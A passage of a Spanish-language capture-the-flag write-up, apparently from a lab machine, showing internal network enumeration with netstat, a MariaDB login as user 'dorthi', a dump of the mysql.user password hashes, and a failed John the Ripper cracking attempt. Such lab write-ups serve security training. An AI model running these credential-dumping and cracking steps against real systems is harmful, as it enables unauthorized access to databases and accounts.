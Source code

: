 
El puerto 3306 está abierto en otro contenedor

```null
/containers/database # netstat -nat
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       
tcp        0      0 127.0.0.11:44481        0.0.0.0:*               LISTEN      
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      
tcp        1      0 10.100.10.2:57508       10.100.10.4:3306        CLOSE_WAIT  
tcp        1      0 10.100.10.2:8080        10.10.16.7:48138        CLOSE_WAIT  
tcp        0      0 10.100.10.2:39469       10.10.16.7:443          CLOSE_WAIT  
tcp        1      0 10.100.10.2:8080        10.10.16.7:50598        CLOSE_WAIT  
tcp        0      2 10.100.10.2:33617       10.10.16.7:443          ESTABLISHED 
```

Me conecto al ```MySQL```

```null
containers/database # mysql -udorthi -p -h 10.100.10.4
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 2
Server version: 5.5.59-MariaDB-1~wheezy mariadb.org binary distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

Encuentro hashes y usuarios

```null
MariaDB [mysql]> select User,Password from user;
+--------+-------------------------------------------+
| User   | Password                                  |
+--------+-------------------------------------------+
| root   | *61A2BD98DAD2A09749B6FC77A9578609D32518DD |
| dorthi | *43AE542A63D9C43FF9D40D0280CFDA58F6C747CA |
| root   | *61A2BD98DAD2A09749B6FC77A9578609D32518DD |
+--------+-------------------------------------------+
3 rows in set (0.00 sec)
```

Pero no se pueden crackear

```null
john -w:/usr/share/wordlists/rockyou.txt hashes
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (mysql-sha1, MySQL 4.1+ [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:01 DONE (2023-02-24 20:46) 0g/s 11565Kp/s 11565Kc/s 23131KC/s *7¡Vamos!
Session completed. 
```
